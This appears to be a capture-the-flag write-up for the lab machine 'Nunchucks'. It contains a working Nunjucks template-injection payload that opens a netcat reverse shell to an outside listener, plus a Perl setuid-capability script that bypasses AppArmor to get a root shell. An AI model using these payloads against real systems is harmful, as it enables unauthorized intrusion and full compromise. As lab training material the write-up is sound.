

Nunchucks is a Linux box: a Nunjucks server-side template injection behind a vhost gives a reverse shell, and a Perl binary with the setuid capability — combined with a weak AppArmor profile — escalates to root.
Reconnaissance
nmap -sC -sV -p22,80,443 10.10.11.122
22/tcp open ssh OpenSSH 8.2p1
80/tcp open http nginx 1.18.0 (redirects to https://nunchucks.htb/)
443/tcp open ssl/http nginx 1.18.0
|_ssl-cert: ... DNS:nunchucks.htbecho "10.10.11.122 nunchucks.htb" | sudo tee -a /etc/hostsFuzzing virtual hosts turns up a store subdomain:
ffuf -u https://FUZZ.nunchucks.htb/ -H "Host: FUZZ.nunchucks.htb" -w common.txt
store [Status: 200, Size: 4029]SSTI → reverse shell
The store's sign-up (email) field is vulnerable to server-side template injection, confirmed with the classic {{7*7}} returning 49. The stack is Node.js with the Nunjucks template engine.
{{7*7}} is evaluated server-side — SSTI confirmed.Using a known Nunjucks SSTI payload (e.g. the node-nunjucks-ssti nuclei template) through Burp, arbitrary files can be read, then command execution achieved:

A full RCE payload spawns a reverse shell to a waiting listener:
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.23 4444 > /tmp/f')\")()}}"}That lands a shell as david; upgrade it and grab the user flag:
script /dev/null bash
david@nunchucks:~$ cat user.txtRoot — Perl setuid capability + AppArmor bypass
Enumerating capabilities shows Perl carries cap_setuid+ep:
getcap -r /
/usr/bin/perl = cap_setuid+ep
/usr/bin/ping = cap_net_raw+epPerl can therefore set UID 0 and run commands as root — but a direct read of the flag is denied:
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
root
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "cat /root/root.txt";'
cat: /root/root.txt: Permission DeniedThe block is an AppArmor profile attached to /usr/bin/perl, which denies /root/* and limits which binaries Perl may exec:
cat /etc/apparmor.d/usr.bin.perl
/usr/bin/perl {
capability setuid,
deny /root/* rwx,
deny /etc/shadow rwx,
/usr/bin/id mrix,
/usr/bin/cat mrix,
...
}The profile confines the/usr/bin/perlbinary, but AppArmor does not apply that profile to a Perl script executed directly. So a#!/usr/bin/perlscript with the setuid payload runs unconfined — a classic AppArmor scoping gap (the payload itself is standard GTFOBins).
echo '#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/bash";' > exploit.pl
chmod +x exploit.pl
./exploit.pl
root@nunchucks:/tmp# whoami
rootThat gives a full root shell and the root flag.